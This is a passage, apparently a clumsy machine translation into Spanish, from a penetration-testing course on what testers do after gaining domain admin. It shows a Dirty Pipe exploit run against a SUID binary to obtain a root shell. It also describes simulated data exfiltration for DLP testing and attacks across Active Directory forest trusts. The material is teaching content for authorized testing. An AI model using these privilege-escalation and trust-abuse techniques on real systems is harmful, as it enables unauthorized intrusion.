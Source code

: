 ```shell-session
ssmallsadm@MGMT01:~$ ./dirtypipe /usr/lib/openssh/ssh-keysign

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1001(ssmallsadm)
```

Desde aquí podríamos realizar la explotación posterior del sistema de archivos para probar el nivel de acceso que logramos.

---

## Simulación de exfiltración de datos

Algunos clientes pueden querer probar su`Data Loss Prevention` (`DLP`) Capacidades, por lo que podríamos experimentar con varias formas de exfiltrar los datos simulados de su red para ver si somos detectados. Deberíamos trabajar con el cliente para comprender qué tipos de datos están tratando de proteger y proceder en consecuencia. Es mejor usar datos simulados para que no tengamos que lidiar con datos de clientes altamente sensibles en nuestro sistema de prueba.

---

## Atacando fideicomisos de dominio

Si hay algún fideicomiso de dominio, podríamos usar nuestras habilidades para enumerar estas relaciones y explotar una relación de confianza de los padres, confianza, confianza intra-forest o un fideicomiso forestal externo. Antes de hacerlo, debemos consultar con el cliente para asegurarnos de que el dominio objetivo esté en alcance para las pruebas. A veces comprometeremos un dominio de importación menos y podremos usar este acceso para hacerse cargo del dominio principal. Esto puede proporcionar mucho valor al cliente, ya que pueden haber establecido relaciones de confianza apresuradamente como resultado de una fusión y adquisición o conectarse con alguna otra organización. Su dominio puede estar bien endurecido, pero ¿qué pasaría si somos capaces de Kerberoast a través de un fideicomiso forestal, comprometer un bosque socio y luego encontrar una cuenta en el bosque socio que tiene derechos de administrador completos en nuestro dominio actual? En esta situación, podríamos demostrar a nuestro cliente que la debilidad principal no está en el dominio en el que estamos probando sino en otro para que puedan proceder en consecuencia.

---

## Pensamientos de cierre

Esta sección mostró una muestra de las cosas que podemos hacer`AFTER`Lograr el administrador del dominio en un entorno del cliente. Aparece, Pwning al cliente y mostrando qué tan rápido obtuvo DA no es bueno para el cliente y no lo ayuda a usted y a su empresa a retener a los clientes y difundir una sólida reputación. Lo que hacemos después de lograr el administrador del dominio es extremadamente importante y aquí es donde podemos diferenciarnos de otros evaluadores que simplemente ejecutan respondedores, algunas otras herramientas y scripts, un escaneo de Nessus, y emitir un informe de stock y llamarlo un día. Su informe entregable debe demostrar el valor de la prueba de penetración por la que su cliente está pagando y podemos asegurarnos de que estén contentos y regresar en los años siguientes si vamos más allá. Esto no siempre es posible debido a las restricciones del contrato y las evaluaciones en el tiempo, pero incluso si podemos proporcionar un poco más, estamos por delante del paquete. Tenga en cuenta que las cosas que identificamos en nuestro informe pueden afectar los fondos de un cliente para el año siguiente y que la financiación probablemente incluye pruebas de penetración. No queremos inflar el informe con hallazgos sin sentido, por supuesto, pero a menudo podemos identificar muchas cosas que nuestro cliente nunca había considerado y ellos y usted será mejor para ello.
